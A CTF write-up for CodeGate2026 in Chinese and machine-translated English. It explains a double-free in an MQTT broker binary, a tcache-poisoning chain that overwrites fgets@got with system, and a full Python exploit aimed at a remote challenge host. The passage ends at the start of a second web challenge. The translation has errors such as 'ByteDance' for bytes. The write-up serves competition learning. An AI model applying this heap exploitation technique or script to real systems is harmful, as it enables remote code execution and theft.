


# CodeGate2026 wp by F1ux

## Pwn

### CoMQTT

#### **漏洞点分析** | **Vulnerability Point Analysis** 

核心漏洞在 broker 处理 retained message 的删除逻辑里，函数是：

The core vulnerability lies in the deletion logic of retained messages processed by the broker, and the function is: 

- `4030FB.c`

```C++
/*
 * func-name: b_publish
 * func-address: 0x4030fb
 * callers: 0x403976, 0x404347, 0x40487e
 * callees: 0x402380, 0x4023c0, 0x402420, 0x4024c0, 0x4024f0, 0x402520, 0x402530, 0x402670, 0x402b76, 0x402ef8, 0x403024
 */

unsigned __int64 __fastcall b_publish(char *a1, const void *a2, int a3, unsigned __int8 a4, char a5, const char *a6)
{
  int v6; // eax
  unsigned __int8 v7; // al
  __int16 v8; // ax
  int v9; // eax
  __int64 v10; // r9
  const char *v11; // rdx
  const char *v12; // rax
  char v17; // [rsp+31h] [rbp-6Fh]
  int v18; // [rsp+34h] [rbp-6Ch]
  int i; // [rsp+38h] [rbp-68h]
  int j; // [rsp+3Ch] [rbp-64h]
  int k; // [rsp+40h] [rbp-60h]
  int v22; // [rsp+44h] [rbp-5Ch]
  char *v23; // [rsp+48h] [rbp-58h]
  _BYTE dest[72]; // [rsp+50h] [rbp-50h] BYREF
  unsigned __int64 v25; // [rsp+98h] [rbp-8h]

  v25 = __readfsqword(0x28u);
  if ( a5 )
  {
    pthread_mutex_lock(&b_retained_mtx);
    v18 = -1;
    for ( i = 0; i < b_nretained; ++i )
    {
      if ( !strcmp((const char *)&b_retained + 272 * i, a1) )
      {
        v18 = i;
        break;
      }
    }
    if ( a3 )
    {
      if ( v18 < 0 && b_nretained <= 99 )
      {
        v6 = b_nretained++;
        v18 = v6;
      }
      if ( v18 >= 0 )
      {
        strncpy((char *)&b_retained + 272 * v18, a1, 0xFFu);
        *((_BYTE *)&unk_44A03F + 272 * v18) = 0;
        free(*((void **)&unk_44A040 + 34 * v18));
        *((_QWORD *)&unk_44A040 + 34 * v18) = malloc(a3);
        if ( *((_QWORD *)&unk_44A040 + 34 * v18) )
        {
          memcpy(*((void **)&unk_44A040 + 34 * v18), a2, a3);
          *((_DWORD *)&unk_44A048 + 68 * v18) = a3;
          byte_44A04C[272 * v18] = a4;
        }
      }
    }
    else if ( v18 >= 0 )
    {
      free(*((void **)&unk_44A040 + 34 * v18));
      qmemcpy((char *)&b_retained + 272 * v18, (char *)&b_retained + 272 * --b_nretained, 0x110u);
    }
    pthread_mutex_unlock(&b_retained_mtx);
  }
  pthread_mutex_lock(&b_clients_mtx);
  for ( j = 0; j <= 19; ++j )
  {
    v23 = (char *)&b_clients + 13272 * j;
    if ( *((_DWORD *)v23 + 1) )
    {
      pthread_mutex_lock((pthread_mutex_t *)(v23 + 13224));
      for ( k = 0; k < *((_DWORD *)v23 + 3235); ++k )
      {
        if ( topic_matches(&v23[257 * k + 88], a1) )
        {
          v7 = v23[257 * k + 344];
          if ( a4 <= v7 )
            v7 = a4;
          v17 = v7;
          if ( v7 )
            v8 = b_pid_seq++;
          else
            v8 = 0;
          b_send_publish(*(_DWORD *)v23, a1, (__int64)a2, a3, v17, v8);
          break;
        }
      }
      pthread_mutex_unlock((pthread_mutex_t *)(v23 + 13224));
    }
  }
  pthread_mutex_unlock(&b_clients_mtx);
  v9 = a3;
  if ( a3 > 60 )
    v9 = 60;
  v22 = v9;
  memcpy(dest, a2, v9);
  dest[v22] = 0;
  if ( a3 <= 60 )
    v11 = (const char *)&unk_40701E;
  else
    v11 = "...";
  if ( a6 )
    v12 = a6;
  else
    v12 = "broker";
  b_log(aPubS, (__int64)v12, (__int64)a1, (__int64)dest, (__int64)v11, v10);
  return v25 - __readfsqword(0x28u);
}
```

- 函数名：`b_publish`

  Function Name:`b_publish`

删除 retained 的伪代码大致是：The pseudocode for deleting retained is roughly as follows: 

```C
free(retained[idx].ptr);
retained[idx] = retained[--b_nretained];
```

问题在于：

The problem is: 

1. 删除中间元素时，程序会把最后一个 retained 槽位整体拷贝到被删位置。

   When deleting the middle element, the program will copy the entire last retained slot to the deleted position. 

2. 但是原本“最后一个槽位”的内容没有被清空。

   However, the content of the original "last slot" was not cleared.

3. 这样会导致同一个 `ptr` 同时出现在两个位置。

   This will cause the same `ptr` to appear in two locations simultaneously. 

4. 后续如果旧槽位再次被复用，就会再次 `free` 这根指针。

   If the old slot is reused again later, it will ` free ` this pointer again. 

于是我们得到：

Thus we obtain:

- `double free`
- `use-after-free`
- dangling retained entry

**为什么这个 UAF 能被读出来**

**Why can this UAF be read out?**

有两个位置会直接解引用 retained 的 `ptr`：

There are two locations that directly dereference the retained `ptr`: 

1. admin 命令 `retained`

   admin command`retained`

   - `deploy/mqtt-ida-export-for-ai/decompile/40487E.c`

2. 客户端订阅时的 retained replay

   Retained replay when the Client subscribes

   - `deploy/mqtt-ida-export-for-ai/decompile/403BB6.c`

第二种更好用，因为它不是按字符串打印，而是直接把 `len` 字节原样发给订阅者。这样 freed chunk 里的堆元数据也能完整泄出来。

The second one is better because it does not print by string, but directly sends ` len ` bytes as they are to the subscriber. This way, the heap metadata in the freed chunk can also be completely leaked. 

**基础原语：构造 dangling retained**

**Basic primitive: construct dangling retained**

最基本的构造方式：

The most basic construction method: 

1. 发布 retained `A`

   Published retained`A`

2. 发布 retained `B`

   Published retained`B`

3. 删除 `A`

   Delete `A`

4. 再发布一个新的 retained `C`

   Release another new retained`C`

这样会发生：

This will happen: 

- 删除 `A` 时，`B` 被搬到前面

  When deleting `A`, `B` is moved to the front

- 原来最后那个槽位还残留着旧的 `B`

  It turns out that the last slot still has the old `B`

- 当这个旧槽位后来被复用时，会再次 `free(B.ptr)`

  When this old slot is later reused, it will again `free(B.ptr)`

- 但真正有效的 retained `B` 仍然指向这块已经被 free 的内存

  But the truly effective retained `B` still points to this memory that has already been freed 

于是订阅 `B` 时就能读到 freed chunk。

So when subscribing to `B`, you can read the freed chunk. 

#### **利用思路总览** | **Overview of Utilization Approaches**

最终利用分成两阶段：

Final utilization is divided into two phases:

1. 第一阶段：任意读，泄露 `fgets@got`，得到 libc 基址

   Phase 1: Arbitrary read, leak `fgets@got`, obtain the base address of libc

2. 第二阶段：任意写，把 `fgets@got` 改成 `system`

   Phase 2: Write arbitrarily, change `fgets@got` to `system`

3. 最后从 admin 口发送一条命令：`cat /home/ctf/flag`

   Finally, send a command from the admin port:`cat /home/ctf/flag`

之所以选 `fgets` 而不是 `strcmp`，是因为 broker 主循环本身就是：

The reason for choosing `fgets` instead of `strcmp` is that the main loop of the broker itself is: 

```C
while (b_running && fgets(s, 512, stdin)) {
    ...
}
```

把 `fgets@got` 改成 `system` 之后，下一轮读取 admin 输入时就会直接执行 shell 命令。

After changing `fgets@got` to `system`, the next round of reading the admin input will directly execute shell commands. 

对应函数：

Corresponding function:

- `deploy/mqtt-ida-export-for-ai/decompile/404D7B.c`

```C++
/*
 * func-name: run_broker
 * func-address: 0x404d7b
 * callers: 0x406490
 * callees: 0x4023d0, 0x4023e0, 0x402420, 0x402430, 0x402460, 0x402470, 0x4024b0, 0x4024d0, 0x402540, 0x402550, 0x402570, 0x402590, 0x4025a0, 0x4025b0, 0x4025c0, 0x4025d0, 0x4025f0, 0x4026a0, 0x40487e
 */

__int64 run_broker()
{
  int optval; // [rsp+0h] [rbp-230h] BYREF
  socklen_t len; // [rsp+4h] [rbp-22Ch] BYREF
  pthread_t newthread; // [rsp+8h] [rbp-228h] BYREF
  struct sockaddr addr; // [rsp+10h] [rbp-220h] BYREF
  char s[520]; // [rsp+20h] [rbp-210h] BYREF
  unsigned __int64 v6; // [rsp+228h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdout, 0, 2, 0);
  signal(13, (__sighandler_t)1);
  b_broker_fd = socket(2, 1, 0);
  if ( b_broker_fd >= 0 )
  {
    optval = 1;
    setsockopt(b_broker_fd, 1, 2, &optval, 4u);
    *(_QWORD *)&addr.sa_family = 2;
    *(_QWORD *)&addr.sa_data[6] = 0;
    if ( bind(b_broker_fd, &addr, 0x10u) >= 0 )
    {
      if ( listen(b_broker_fd, 10) >= 0 )
      {
        len = 16;
        getsockname(b_broker_fd, &addr, &len);
        b_port = ntohs(*(uint16_t *)addr.sa_data);
        puts("=============================================");
        puts("          MQTT Broker  (server mode)");
        puts("=============================================");
        printf("[*] Broker port : %d\n", b_port);
        printf("[*] Connect via : mqtt client <host> %d\n", b_port);
        puts("[*] Type 'help' for admin commands.");
        puts("=============================================");
        fflush(stdout);
        pthread_create(&newthread, 0, b_accept_thread, 0);
        pthread_detach(newthread);
        while ( b_running && fgets(s, 512, stdin) )
        {
          s[strcspn(s, "\r\n")] = 0;
          if ( s[0] )
            b_handle_admin(s);
        }
        b_running = 0;
        close(b_broker_fd);
        return 0;
      }
      else
      {
        perror("listen");
        return 1;
      }
    }
    else
    {
      perror("bind");
      return 1;
    }
  }
  else
  {
    perror("socket");
    return 1;
  }
}
```

#### **关键利用技巧** | **Key Utilization Techniques**

**1. 先泄露 safe-linking 的 key**

**First, leak the key of safe-linking**

glibc tcache 的 next 指针做了 safe-linking：

The next pointer of glibc tcache implements safe-linking: 

```Plain
encoded_next = next ^ (chunk_addr >> 12)
```

而 dangling retained 恰好能读到 freed chunk 的前 8 字节，所以可以直接拿到：

And dangling retained can exactly read the first 8 ByteDance of the freed chunk, so it can directly obtain: 

```Plain
chunk_addr >> 12
```

后续 tcache poisoning 就能自己编码 next 指针。

Subsequent tcache poisoning can then encode the next pointer on its own.

**2. 利用 partial CONNECT 做“线程继续写 freed chunk”**

**Use partial CONNECT to perform "thread continues writing to freed chunk"**

`b_handle_connect` 里会为 will payload 执行：

`b_handle_connect` will execute for the will payload:

```C
ptr = malloc(v14 + 1);
io_readn(fd, ptr, v14);
```

如果我们只发一部分 CONNECT，让线程阻塞在 `io_readn()` 上，那么：

If we only send a portion of CONNECT and let the thread block on ` io_readn() `, then: 

1. 它先 `malloc`

   It first `malloc`

2. chunk 被分配到了某个线程里

   chunk has been assigned to a certain thread

3. 之后我们还能继续往这块内存里写剩余数据

   After that, we can continue writing the remaining data into this block of memory 

这就形成了非常稳定的“分配后继续写”原语。

This creates a very stable "continue writing after allocation" primitive. 

**3. glibc 2.39 下需要先给 tcache 同 bin 塞一个 seed chunk**

**Under glibc 2.39, a seed chunk needs to be stuffed into the same bin of tcache first**

这是整题最重要的坑点。

This is the most important pitfall in the entire question. 

在 glibc 2.39 下，如果某个 tcache bin 里只有一个元素，那么：

Under glibc 2.39, if there is only one element in a tcache bin, then:

1. 第一次 `malloc` 把它弹出后

   The first `malloc` after popping it out 

2. `count` 会变成 0

   `count` will become 0

3. 第二次 `malloc` 不会再沿着我们伪造的 `next` 走

   The second `malloc` will no longer follow our forged `next` 

所以必须提前往同一个 bin 再塞一个 seed chunk，让 `count >= 2`。

Therefore, we must pre - insert another seed chunk into the same bin to ensure that ` count >= 2 `. 

**4. seed chunk 不能用“删除 retained”来造**

**The seed chunk cannot be created using "delete retained".**

我一开始用的是：

What I used at the beginning was: 

1. 创建 retained `S`

   Create retained`S`

2. 删除 `S`

   Delete `S`

这样虽然能得到一个 free chunk，但这个程序自己的 retained 删除逻辑本身就有 stale slot。后面复用这个槽位时会再次 `free`，把 tcache 链直接搞坏。

Although this way a free chunk can be obtained, the retained deletion logic of this program itself has stale slots. When reusing this slot later, it will `free` again, directly corrupting the tcache chain. 

正确做法是：

The correct approach is: 

1. 创建 `S`，大小为目标 size

   Create` S ` with the target size 

2. 再 update `S` 到一个更大的 size

   Update again`S` to a larger size

这样旧的小 chunk 会被正常 free 进 tcache，但 retained 槽位里不会残留旧指针。

Such old small chunks will be normally freed into tcache, but no old pointers will remain in the retained slots. 

**5. target 必须前移`0x10`**

**target must be moved forward by `0x10`**

如果直接把 tcache poisoning 的 target 设成“我们想改的字段地址”，会有另一个问题：

If we directly set the target of tcache poisoning to "the address of the field we want to modify", there will be another problem: 

第二次 `malloc` 返回该地址后，glibc 还会把这块内存开头当作 tcache 条目来处理。

After the second `malloc` returns this address, glibc will also treat the beginning of this memory block as a tcache entry for processing.

所以正确姿势是：

Therefore, the correct posture is:

1. 把 target 设成 `wanted_addr - 0x10`

   Set target to `wanted_addr - 0x10`

2. 让 chunk 头部的前 16 字节专门留给 tcache 元数据

   Reserve the first 16 ByteDance of the chunk header specifically for tcache metadata 

3. 真正业务字段从 `+0x10` 开始写

   The real business field starts writing from `+0x10` 

同时，chunk 开头第一个 qword 还要写成：

Meanwhile, the first qword at the beginning of the chunk also needs to be written as:

```Plain
target >> 12
```

这相当于 safe-linking 下的“encoded NULL”，这样 tcache 在下一次处理这个 bin 时不会因为 unaligned next 再次崩掉。

This is equivalent to "encoded NULL" under safe-linking, so that tcache will not crash again due to unaligned next when processing this bin next time. 

#### **第一阶段：泄露`fgets@got`** | **Phase 1: Leak `fgets@got`**

第一阶段我选的尺寸是 `0x38`。

In the first stage, the size I selected is ` 0x38 `. 

**步骤**

**Step**

1. 用 `P1` 线程构造 dangling retained `B1`

   Construct dangling retained `P1` thread with `B1`

2. 在 `P1` 自己还活着时订阅 `B1`，泄露 freed chunk 前 8 字节，得到 `p >> 12`

   Subscribe to `P1` while it is still alive, leak the first 8 ByteDance of the freed chunk, and obtain `B1`, resulting in `p >> 12`

3. `P1` 断开

   `P1` Disconnected 

4. `G1` 发 partial CONNECT，抢到原来的 chunk `p`

   `G1 ` sends partial CONNECT and grabs the original chunk ` p `

5. `H1` 创建一个 seed retained `S1(0x38)`，再 update 成 `0x80`

   `H1` Create a seed retained `S1(0x38)`, then update it to `0x80`

   - 这样 `0x38` 的旧 chunk 被 free 到 `H1` 的 tcache

     Such `0x38` old chunk is freed to `H1` tcache

6. `H1` 把 `B1` update 成 `0x80`

   - 这一步把 `p` free 到 `H1` 的 tcache

     This step frees `p` to `H1`'s tcache 

   - 此时对应 bin 里至少有两个元素：`seed + p`

     At this point, the corresponding bin contains at least two elements:`seed + p`

7. `G1` 继续把 will payload 写完，覆盖 `p->next`

   `G1 ` continues to finish writing the will payload, overwriting ` p->next `

8. `H1` 再分配一次 `0x38` 的 retained `D1`

   `H1` Reallocate once `0x38` retained `D1`

   - 这一步 pop 掉 `p`

     This step pops ` p `

9. `H1` 再分配一次 `0x38` 的 retained `E1`

   `H1` Reallocate once `0x38` retained `E1`

   - 这一步会返回我们伪造的 target

     This step will return our forged target 

10. 让 `E1.ptr = fgets@got`

11. 订阅 `E1`，拿到 `fgets@got` 的真实 libc 地址

    Subscribe to `E1`, and obtain the real libc address of `fgets@got`

**为什么 target 选 retained slot 自己**

**Why does the target choose the retained slot itself?**

这里不是直接去读 GOT，而是先把某个 retained 槽位自己的 `ptr` 字段改掉。这样订阅这个 topic 时，broker 会帮我们去读这个任意地址。

Instead of directly reading GOT here, we first modify the `ptr` field of a certain retained slot. When subscribing to this topic, the broker will help us read this arbitrary address. 

也就是说：

That is to say: 

1. tcache poisoning 拿到 `&retained[E1].ptr - 0x10`

2. 写入 `retained[E1].ptr = fgets@got`

3. `SUBSCRIBE E1`

4. broker 按 retained replay 自动把 `fgets@got` 指向的内容发回来

   The broker automatically sends back the content pointed to by `fgets@got` according to retained replay 

#### **第二阶段：改写`fgets@got`** | **Phase 2: Rewrite `fgets@got`**

第二阶段完全复用同一套模板，只是换一个不同的 size class，避免和第一阶段互相污染。

The second phase completely reuses the same set of templates, only changing to a different size class to avoid cross-contamination with the first phase. 

我最终选的是 `0x68`。

What I finally chose was `0x68`. 

**步骤**

**Step**

1. 用 `P2` 构造新的 dangling retained `B2(0x68)`

   Construct a new dangling retained `P2` using `B2(0x68)`

2. 订阅 `B2`，泄露新的 `p2 >> 12`

   Subscribe to `B2`, revealing new `p2 >> 12`

3. `G2` partial CONNECT 抢到 `p2`

4. `H2` 先造 seed retained `S2(0x68)`，再 update 成 `0x80`

5. `H2` 把 `B2` update 成 `0x80`

6. `G2` 覆盖 `p2->next = (FGETS_GOT - 0x10) ^ (p2 >> 12)`

7. `H2` 分配 `D2(0x68)`，先 pop 掉 `p2`

   `H2` Allocation `D2(0x68)`, first pop `p2`

8. `H2` 分配 `E2(0x68)`，命中 `FGETS_GOT - 0x10`

   `H2` Allocation `E2(0x68)`, Hit `FGETS_GOT - 0x10`

9. 从 `+0x10` 开始把若干 GOT 项写成 `system`

   Starting from `+0x10`, write several GOT entries as `system`

这里我没有只写一个 qword，而是把后面一段都铺成 `system`。这样会有一些额外副作用，远端输出里也能看到若干 shell 报错，但不影响最后拿 flag。

Here, instead of just writing a qword, I laid out the subsequent section as `system`. This has some additional side effects, and you can also see several shell error messages in the remote output, but it does not affect getting the flag in the end.

#### **最终触发** | **Final Trigger**

admin 主循环每轮都会调用：

The admin main loop calls this every round: 

```C
fgets(s, 512, stdin)
```

当 `fgets@got` 已经变成 `system` 后，只要对 admin 口发：

When ` fgets@got ` has become ` system `, just send to the admin port: 

```bash
cat /home/ctf/flag
```

就会被当成 shell 命令执行，输出直接回到当前这个 admin socket。

will be treated as a shell command and executed, with the output directly returned to the current admin socket.

#### Exp

```python
import re
import socket
import struct
import time

REMOTE_HOST = "3.38.189.48"
REMOTE_ADMIN_PORT = 33686

B_RETAINED_BASE = 0x449F40
SLOT_SZ = 0x110
PTR_OFF = 0x100
FGETS_GOT = 0x4090A0

REMOTE_FGETS_OFF = 0x85B30
REMOTE_SYSTEM_OFF = 0x58750

class AdminChannel:
    def __init__(self, sock):
        self.sock = sock
        self.buf = b""

    def read_until(self, pattern, timeout=5.0):
        end = time.time() + timeout
        while time.time() < end:
            if pattern in self.buf:
                idx = self.buf.index(pattern) + len(pattern)
                out = self.buf[:idx]
                self.buf = self.buf[idx:]
                return out
            self.sock.settimeout(max(0.05, end - time.time()))
            try:
                chunk = self.sock.recv(4096)
            except socket.timeout:
                continue
            if not chunk:
                break
            self.buf += chunk
        raise TimeoutError(f"did not observe admin pattern: {pattern!r}")

    def read_available(self, timeout=0.3):
        end = time.time() + timeout
        while time.time() < end:
            self.sock.settimeout(max(0.05, end - time.time()))
            try:
                chunk = self.sock.recv(4096)
            except socket.timeout:
                continue
            if not chunk:
                break
            self.buf += chunk
        out = self.buf
        self.buf = b""
        return out

    def send_line(self, line):
        self.sock.sendall(line + b"\n")

def recv_until(sock, pattern, timeout=5.0):
    end = time.time() + timeout
    data = b""
    while time.time() < end:
        sock.settimeout(max(0.05, end - time.time()))
        try:
            chunk = sock.recv(4096)
        except socket.timeout:
            continue
        if not chunk:
            break
        data += chunk
        if pattern in data:
            break
    return data

def read_available(sock, timeout=0.3):
    end = time.time() + timeout
    chunks = []
    while time.time() < end:
        sock.settimeout(max(0.05, end - time.time()))
        try:
            chunk = sock.recv(4096)
        except socket.timeout:
            continue
        if not chunk:
            break
        chunks.append(chunk)
    return b"".join(chunks)

def send_line(sock, line):
    sock.sendall(line + b"\n")

def mqtt_connect(host, port, client_id, flags=0x02, keepalive=60, retries=40):
    last_exc = None
    s = None
    for _ in range(retries):
        try:
            s = socket.create_connection((host, port), timeout=0.5)
            break
        except OSError as exc:
            last_exc = exc
            time.sleep(0.05)
    if s is None:
        raise last_exc
    s.settimeout(3.0)
    vh = b"\x00\x04MQTT" + b"\x04" + bytes([flags]) + keepalive.to_bytes(2, "big")
    payload = len(client_id).to_bytes(2, "big") + client_id
    pkt = bytes([0x10, len(vh) + len(payload)]) + vh + payload
    s.sendall(pkt)
    s.recv(4)
    return s

def mqtt_publish(sock, topic, payload, retain=False, qos=0, pid=1):
    flags = (qos << 1) | (1 if retain else 0)
    body = len(topic).to_bytes(2, "big") + topic
    if qos:
        body += pid.to_bytes(2, "big")
    body += payload
    rem = bytearray()
    n = len(body)
    while True:
        b = n & 0x7F
        n >>= 7
        if n:
            b |= 0x80
        rem.append(b)
        if not n:
            break
    sock.sendall(bytes([0x30 | flags]) + bytes(rem) + body)

def mqtt_subscribe(sock, topic, qos=0, pid=1):
    body = pid.to_bytes(2, "big") + len(topic).to_bytes(2, "big") + topic + bytes([qos & 3])
    sock.sendall(bytes([0x82, len(body)]) + body)

def recv_pkt(sock, timeout=2.0):
    sock.settimeout(timeout)
    first = sock.recv(1)
    if not first:
        return None
    mult = 1
    rem = 0
    while True:
        b = sock.recv(1)
        if not b:
            return None
        x = b[0]
        rem += (x & 0x7F) * mult
        if not (x & 0x80):
            break
        mult *= 128
    data = b""
    while len(data) < rem:
        chunk = sock.recv(rem - len(data))
        if not chunk:
            return None
        data += chunk
    return first[0], data

def recv_publish_payload(sock, timeout=3.0):
    end = time.time() + timeout
    while time.time() < end:
        try:
            pkt = recv_pkt(sock, max(0.05, end - time.time()))
        except socket.timeout:
            continue
        if not pkt:
            continue
        pkt_type, data = pkt
        if pkt_type >> 4 != 3:
            continue
        off = 2 + int.from_bytes(data[:2], "big")
        if (pkt_type >> 1) & 3:
            off += 2
        return data[off:]
    raise TimeoutError("timed out waiting for retained publish")

def send_connect_partial(host, port, will_len, client_id):
    last_exc = None
    s = None
    for _ in range(40):
        try:
            s = socket.create_connection((host, port), timeout=0.5)
            break
        except OSError as exc:
            last_exc = exc
            time.sleep(0.05)
    if s is None:
        raise last_exc
    flags = 0x06
    vh = b"\x00\x04MQTT" + b"\x04" + bytes([flags]) + (60).to_bytes(2, "big")
    payload = len(client_id).to_bytes(2, "big") + client_id
    payload += (1).to_bytes(2, "big") + b"W"
    payload += will_len.to_bytes(2, "big")
    rem_len = len(vh) + len(payload) + will_len
    enc = bytearray()
    n = rem_len
    while True:
        b = n & 0x7F
        n >>= 7
        if n:
            b |= 0x80
        enc.append(b)
        if not n:
            break
    s.sendall(b"\x10" + bytes(enc) + vh + payload)
    return s

def stage_leak(host, port):
    s = 0x38
    p = mqtt_connect(host, port, b"P1")
    mqtt_publish(p, b"A1", b"A" * 0x20, retain=True)
    mqtt_publish(p, b"B1", b"B" * s, retain=True)
    mqtt_publish(p, b"A1", b"", retain=True)
    mqtt_publish(p, b"C1", b"C" * 0x80, retain=True)
    mqtt_subscribe(p, b"B1")
    leak = recv_publish_payload(p)
    key = int.from_bytes(leak[:8], "little")
    p.close()
    time.sleep(0.1)

    g = send_connect_partial(host, port, s - 1, b"G1")
    time.sleep(0.1)
    h = mqtt_connect(host, port, b"H1")
    time.sleep(0.1)
    mqtt_publish(h, b"S1", b"S" * s, retain=True)
    mqtt_publish(h, b"S1", b"T" * 0x80, retain=True)
    mqtt_publish(h, b"B1", b"Q" * 0x80, retain=True)
    return h, g, key

def finish_leak(host, port, key, h, g):
    s = 0x38
    slot_e_ptr = B_RETAINED_BASE + 4 * SLOT_SZ + PTR_OFF
    target = slot_e_ptr - 0x10
    poison = struct.pack("<Q", target ^ key) + b"K" * 8 + b"P" * (s - 16)
    g.sendall(poison)
    return g, h

def complete_leak(host, port, h, g):
    s = 0x38
    mqtt_publish(h, b"D1", b"D" * s, retain=True)
    slot_e_ptr = B_RETAINED_BASE + 4 * SLOT_SZ + PTR_OFF
    target = slot_e_ptr - 0x10
    payload_e = struct.pack("<Q", target >> 12)
    payload_e += b"J" * 8
    payload_e += struct.pack("<Q", FGETS_GOT)
    payload_e += b"R" * (s - len(payload_e))
    mqtt_publish(h, b"E1", payload_e, retain=True)

    l = mqtt_connect(host, port, b"L1")
    mqtt_subscribe(l, b"E1")
    got = recv_publish_payload(l)
    l.close()
    g.close()
    time.sleep(0.1)
    return got

def stage_write(host, port):
    s = 0x68
    p = mqtt_connect(host, port, b"P2")
    mqtt_publish(p, b"A2", b"A" * 0x20, retain=True)
    mqtt_publish(p, b"B2", b"B" * s, retain=True)
    mqtt_publish(p, b"A2", b"", retain=True)
    mqtt_publish(p, b"C2", b"C" * 0x80, retain=True)
    mqtt_subscribe(p, b"B2")
    leak = recv_publish_payload(p)
    key = int.from_bytes(leak[:8], "little")
    p.close()
    time.sleep(0.1)

    g = send_connect_partial(host, port, s - 1, b"G2")
    time.sleep(0.1)
    h = mqtt_connect(host, port, b"H2")
    time.sleep(0.1)
    mqtt_publish(h, b"S2", b"S" * s, retain=True)
    mqtt_publish(h, b"S2", b"T" * 0x80, retain=True)
    mqtt_publish(h, b"B2", b"Q" * 0x80, retain=True)
    return h, g, key

def finish_write(system_addr, h, g, key):
    s = 0x68
    target = FGETS_GOT - 0x10
    poison = struct.pack("<Q", target ^ key) + b"K" * 8 + b"P" * (s - 16)
    g.sendall(poison)
    return g, h

def complete_write(system_addr, h):
    s = 0x68
    mqtt_publish(h, b"D2", b"D" * s, retain=True)
    target = FGETS_GOT - 0x10
    payload = struct.pack("<Q", target >> 12)
    payload += b"J" * 8
    payload += struct.pack("<Q", system_addr) * ((s - len(payload)) // 8)
    if len(payload) < s:
        payload += b"S" * (s - len(payload))
    mqtt_publish(h, b"E2", payload, retain=True)
    time.sleep(0.1)
    return h

def main():
    last_exc = None
    admin = None
    for _ in range(10):
        try:
            admin = socket.create_connection((REMOTE_HOST, REMOTE_ADMIN_PORT), timeout=3.0)
            break
        except OSError as exc:
            last_exc = exc
            time.sleep(0.5)
    if admin is None:
        raise last_exc
    chan = AdminChannel(admin)
    h1 = g1 = h2 = g2 = None
    try:
        banner = recv_until(admin, b"Type 'help' for admin commands.", timeout=5.0)
        print(banner.decode("latin-1", errors="ignore"))

        m = re.search(rb"Broker port : (\d+)", banner)
        if not m:
            raise RuntimeError("broker port not found")
        broker_port = int(m.group(1))
        print(f"[+] broker port = {broker_port}")

        h1, g1, key1 = stage_leak(REMOTE_HOST, broker_port)
        chan.read_until(b"Client 'P1' disconnected", timeout=5.0)
        chan.read_until(b'B1 : "QQQ', timeout=5.0)
        g1, h1 = finish_leak(REMOTE_HOST, broker_port, key1, h1, g1)
        chan.read_until(b"Client 'G1' connected", timeout=5.0)
        got = complete_leak(REMOTE_HOST, broker_port, h1, g1)
        leaked_fgets = int.from_bytes(got[:8], "little")
        leaked_strcmp = int.from_bytes(got[8:16], "little")
        print(f"[+] leaked fgets@libc  = {leaked_fgets:#x}")
        print(f"[+] leaked strcmp@libc = {leaked_strcmp:#x}")

        libc_base = leaked_fgets - REMOTE_FGETS_OFF
        system_addr = libc_base + REMOTE_SYSTEM_OFF
        print(f"[+] libc base   = {libc_base:#x}")
        print(f"[+] system addr = {system_addr:#x}")

        h2, g2, key2 = stage_write(REMOTE_HOST, broker_port)
        chan.read_until(b"Client 'P2' disconnected", timeout=5.0)
        chan.read_until(b'B2 : "QQQ', timeout=5.0)
        g2, h2 = finish_write(system_addr, h2, g2, key2)
        chan.read_until(b"Client 'G2' connected", timeout=5.0)
        complete_write(system_addr, h2)

        chan.send_line(b"cat /home/ctf/flag")
        time.sleep(1.5)
        out = chan.read_available(timeout=3.0)
        print(out.decode("latin-1", errors="ignore"))
    except Exception:
        extra = chan.read_available(timeout=1.5)
        if extra:
            print(extra.decode("latin-1", errors="ignore"))
        raise
    finally:
        for sock in (g2, h2, h1, admin):
            if sock is not None:
                try:
                    sock.close()
                except Exception:
                    pass

if __name__ == "__main__":
    main()

```

### CobWeb

#### **TL;DR**

这题的核心利用链是：

The core utilization chain of this question is: 

1. `9883` 不是实际 Web 服务端口，而是一个 launcher。连接后会启动一个临时实例，并打印真正的随机端口。

   `9883` is not the actual web service port, but a launcher. After connecting, it will start a temporary instance and print the real random port.

2. 帖子内容在写入数据库前会经过 `sub_5270()` 做 HTML escape。

   The post content will go through ` sub_5270() ` for HTML escape before being written to the database. 

3. `sub_5270()` 处理 `"` 时存在 1 字节越界，可以在 `/post/<id>/edit` 路径下把当前用户 id 的低字节清零。

   `sub_5270()` has a 1 ByteDance out-of-bounds issue when processing `"`, and the low byte of the current user ID can be cleared under the `/post/<id>/edit` path.

4. 用户 id 被清零后，程序会误走管理员分支，把当前帖子更新为 `user_id = 0`。

   After the user ID is cleared, the program will incorrectly enter the administrator branch and update the current post to ` user_id = 0 `. 

